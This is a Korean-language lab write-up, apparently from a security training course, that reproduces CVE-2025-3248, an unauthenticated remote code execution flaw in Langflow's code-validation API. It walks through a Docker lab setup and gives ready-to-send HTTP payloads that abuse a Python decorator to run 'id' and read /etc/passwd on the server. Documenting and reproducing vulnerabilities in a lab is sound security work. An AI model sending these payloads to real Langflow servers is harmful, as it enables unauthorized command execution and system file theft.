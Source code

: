 # Langflow validate/code API Pre-Auth 원격 코드 실행 (CVE-2025-3248) 

> 화이트햇 스쿨 3기 - [장인영 (@inyeongjang)](https://github.com/inyeongjang)

### 개요
<hr/>
***Langflow***

Langflow는 대규모 언어 모델(LLM)과 다양한 데이터 소스를 활용하여 AI 애플리케이션을 시각적으로 설계하고 구축할 수 있는 low-code 플랫폼입니다. Pyhton 기반으로 개발되었으며, 특정 모델, API, 데이터베이스에 구애받지 않고 유연하게 사용할 수 있습니다. 

***CVE-2025-3248***

Langflow 1.3.0 버전 미만에서, 인증 없이 원격 코드 실행(RCE)이 가능한 심각한 취약점 CVE-2025-3248이 존재합니다. 

해당 취약점은 LLM이 생성한 코드를 검증하는 API /api/v1/validate/code에서 발생합니다. 

사용자가 제출한 Python 코드를 ast 모듈로 파싱하고, exec를 통해 함수 정의를 실행하는데,  
Python에서는 함수 정의 시 데코레이터(decorator) 와 기본 인자(default arguments) 도 함 실행됩니다. 

이를 악용하면 악성 코드를 삽입할 수 있으며, 결과적으로 공격자가 서버 사용자 권한으로 임의의 코드를 실행할 수 있게 됩니다. 

본 보고서에서는 Docker 기반으로 CVE-2025-3248을 검증하는 환경을 구축하고 실제 공격 과정을 재현합니다. 
<br/>

### 환경 구축 (Environment Setup)
<hr/>
1. 취약한 Langflow 1.2.0 버전을 Docker로 실행합니다. 

```bash
docker compose up -d
````

2. 서버가 시작되면, 아래 주소로 웹 인터페이스에 접속할 수 있습니다. 

```
http://your-ip:7860 
```
![Langflow 실행 화면](./images/1.png)

3. 기본 로그인 계정으로 로그인합니다. 

- 아이디: administrator

- 비밀번호: vulhub 

![Langflow 실행 화면](./images/2.png)

### 취약점 재현 (Vulnerability Reproduction)
<hr/>
프록시 도구를 이용해 /api/v1/validate/code 엔드포인트에 악성 Python 함수 정의를 포함한 POST 요청을 전송합니다. 

다음은 서버에서 id 명령어를 실행하는 공격 페이로드입니다. 

POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}

요청이 성공하면, 서버 측에서 id 명령이 실행되고 결과가 노출됩니다. 이러한 방식으로 임의 명령어 실행이 가능함을 확인할 수 있습니다. 

![실행 결과 화면](./images/3.png)

***추가 공격 예시***

서버의 /etc/passwd 파일 내용을 읽어 메시지로 출력합니다.  

{
  "code": "@exec(\"raise Exception(open('/etc/passwd').read())\")\ndef foo():\n  pass"
}

![실행 결과 화면](./images/4.png)


### 참고 자료 (References) 
<hr/> 
https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/
https://github.com/langflow-ai/langflow/releases/tag/1.3.0
langflow-ai/langflow#6911

<추가> 
https://wikidocs.net/book/16986 
https://github.com/vulhub/vulhub/tree/master/langflow/CVE-2025-3248
https://hackyboiz.github.io/2025/04/13/mungsul/2025-04-12/


